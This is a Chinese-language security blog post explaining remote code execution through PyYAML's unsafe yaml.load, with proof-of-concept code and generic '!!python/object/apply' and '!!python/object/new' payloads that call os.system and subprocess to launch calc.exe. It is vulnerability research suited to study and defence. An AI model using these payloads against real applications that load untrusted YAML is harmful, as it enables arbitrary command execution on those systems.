 Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: python,漏洞
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一

![img](img/pyyaml/1.png)

### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二

![img](img/pyyaml/2.png)

成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/sharexmind/tree/master/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>